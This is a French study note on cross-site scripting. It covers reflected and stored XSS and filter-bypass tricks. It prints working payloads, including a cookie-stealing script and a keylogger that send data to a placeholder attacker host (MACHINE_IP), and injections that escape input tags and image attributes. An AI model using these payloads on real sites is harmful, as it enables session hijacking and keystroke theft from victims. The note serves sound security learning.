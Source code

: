 Les failles XSS sont des **failles** qui se passe **côté client**, elles consistent à éxécuter des **scripts javascript** sur la page d'une victime.

## __Payload__

Télécharger l'extension [Hack tool](https://github.com/LasCC/Hack-Tools) pour disposer de plusieurs payload à utiliser facilement.

### Proof Of Concept

```html
<script>alert("XSS");</script>
```

Ce code affichera "XSS" à l'écran si une faille XSS existe.

### Session Stealing

```html
<script>fetch('MACHINE_IP?cookie=' + btoa(document.cookie));</script>
```

Ce code enverra les cookies de la victime à l'adresse de la machine.

### Key Logger

```html
<script>document.onkeypress=function(e){fetch('http://MACHINE_IP/log?key='+btoa(e.key));}</script>
```

Ce code enverra, à chaque fois que la victime appuyera sur une touche, la valeur de la touche à l'adresse de la machine.


## __Reflected XSS__

Une reflected XSS est présente lorsque la page affiche une valeur passé en *paramètre dans l'URL*.
Example :

![[reflectedXss1.png]]

En remplaçant la valeur de *error* par un script, on peut obtenir ceci :

![[reflectedXss2.png]]

Voici un schéma qui illustre ce qui se passera quand nous enverrons ce lien à une victime :

![[reflectedXss3.png]]


## __Stored XSS__

Lorsqu'un script XSS est *stocké dans une base de donnée* on appelle cela une Stored XSS. Cela peut se produire lors de la création d'un compte, ou d'un poste sur un forum par example.
Cela aura pour action que lorsqu'un client accedera à cette page, cela chargera le script XSS et l'executera.


## __Perfecting the Payload__

### 1er cas

![[perfectingPayload1.1.png]]

![[perfectingPayload1.2.png]]

Dans ce scénario on peut bypass la balise \<**input**\> en écrivant:

```html
"><script>alert('XSS');</script>
```
Avec *">* on va **fermer** la balise \<**input**\> avant d'écrire notre script.

### 2e cas

Parfois le rendu de notre payload peut ressembler à ca :

![[perfectingPayload2.png]]

Le problème est dû au fait que le serveur à retiré le mot *script*, pour bypass cela il suffit d'écrire le mot clé autour du mot supprimé.

```html
<sscriptcript>alert("XSS");</sscriptcript>
```

Une fois le texte enlevé par le filtre le code ressemblera à ca :

```html
<script>alert("XSS");</script>
```

### 3e cas

Dans le cas ou nous voulions insérer un **payload à la place de l'url d'une image**, on pourrai se retrouver dans cette situation :

![[perfectingPayload3.1.png]]

Dans ce cas le code de bypass ressemblerai à ça :

```html
/images/cat.jpg" onload="alert('XSS');
```

![[perfectingPayload3.2.png]]



| adadadad | dazdadd |
| -------- | ------- |
| adazda   | dzadazda        |
